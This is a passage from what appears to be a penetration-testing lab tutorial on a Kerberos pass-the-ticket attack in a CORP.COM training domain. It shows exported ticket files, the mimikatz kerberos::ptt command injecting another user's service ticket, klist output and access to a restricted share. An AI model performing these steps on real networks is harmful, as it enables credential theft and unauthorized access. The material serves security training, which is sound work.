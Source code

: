 ```
-a----        9/14/2022   6:24 AM           1505 [0;1c933d]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1ca6c2]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1ca6c2]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
...
```

> Listing 25 - Exporting Kerberos TGT/TGS to disk

As many tickets have been generated, we can just pick any TGS ticket in the **dave@cifs-web04.kirbi** format and inject it through mimikatz via the **kerberos::ptt** command.

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```

> Listing 26 - Injecting the selected TGS into process memory.

No errors have been thrown, meaning that we should expect the ticket in our session when running **klist**.

```
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

> Listing 27 - Inspecting the injected ticket in memory

We notice that the *dave* ticket has been successfully imported in our own session for the *jen* user.

Let's confirm we have been granted access to the restricted shared folder.

```
PS C:\Tools> ls \\web04\backup

    Directory: \\web04\backup

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname